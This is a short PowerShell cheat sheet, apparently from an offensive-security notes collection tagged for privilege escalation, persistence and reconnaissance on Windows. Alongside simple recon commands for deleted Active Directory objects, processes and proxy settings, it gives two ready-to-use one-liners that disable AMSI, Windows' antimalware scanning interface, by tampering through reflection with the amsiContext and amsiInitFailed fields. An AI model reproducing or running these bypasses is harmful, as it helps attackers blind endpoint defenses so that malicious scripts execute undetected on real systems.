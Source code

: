 # powershell

#plateform/windows #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

## Get file in trash
```
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```

## Get process
```
Get-Process
```

## Get Proxy
```
[System.Net.WebRequest]::DefaultWebProxy.GetProxy("http://<ip>/<url>")
```

## Bypass AMSI with _amsiContext_
```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

## Bypass AMSI with _AmsiInitFailed_
```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*InitFailed") {$f=$e}};$f.SetValue($null,$true)
```
